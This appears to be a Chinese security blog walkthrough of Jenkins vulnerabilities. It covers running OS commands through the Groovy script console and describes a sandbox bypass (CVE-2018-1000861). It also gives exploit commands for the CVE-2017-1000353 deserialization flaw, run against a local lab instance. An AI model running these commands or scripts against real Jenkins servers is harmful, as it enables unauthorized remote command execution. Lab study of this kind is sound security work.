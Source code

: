 Jenkins
-------

[Jenkins](https://so.csdn.net/so/search?q=Jenkins&spm=1001.2101.3001.7020)是一个开源软件项目，是基于Java开发的一种持续集成工具，用于监控持续重复的工作，旨在提供一个开放易用的软件平台，使软件的持续集成变成可能。

**Jenkins功能包括：**

*   持续的软件版本发布/测试项目。
*   监控外部调用执行的工作。

**Jenkins曾经发生的反序列化漏洞：**

*   CVE-2015-8103
*   CVE-2016-9299
*   CVE-2017-1000353
*   CVE-2018-1000861

**Jenkins后台执行命令**

访问：[http://xx.xx.xx.xx/script](http://10.56.2.73:8080/script "http://xx.xx.xx.xx/script")

```
def cmd = 'ifconfig'      
def sout = new StringBuffer(), serr = new StringBuffer()      
def proc = cmd.execute()      
proc.consumeProcessOutput(sout, serr)      
proc.waitForOrKill(1000)      
println sout
```


![](https://img-blog.csdnimg.cn/20200713162013383.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

或者

```
println "ifconfig".execute().text
```


![](https://img-blog.csdnimg.cn/20201123232838263.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### Jenkins远程命令执行漏洞（CVE-2018-1000861）

Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。

通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。

### Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）

**漏洞描述**：该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限。

**漏洞影响版本**

*   所有jenkins主版本均受到影响(包括<=2.56版本)
*   所有的jenkins LTS均受到影响(包括<=2.46.1版本)

本地搭建好环境，访问地址：[http://192.168.10.13:8080](http://192.168.10.13:8080/login?from=%2F "http://192.168.10.13:8080")

![](https://img-blog.csdnimg.cn/20191011114448352.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

执行命令：

```
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"      
python3 exploit.py http://192.168.10.13:8080 jenkins_poc.ser
```


![](https://img-blog.csdnimg.cn/20191011115335505.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

  如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

参考文章：[Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）](https://vulhub.org/#/environments/jenkins/CVE-2017-1000353/ "Jenkins-CI 远程代码执行漏洞（CVE-2017-1000353）")

                  [Jenkins Java 反序列化远程执行代码漏洞(CVE-2017-1000353)](https://www.cnblogs.com/yuzly/p/11255729.html "Jenkins Java 反序列化远程执行代码漏洞(CVE-2017-1000353)")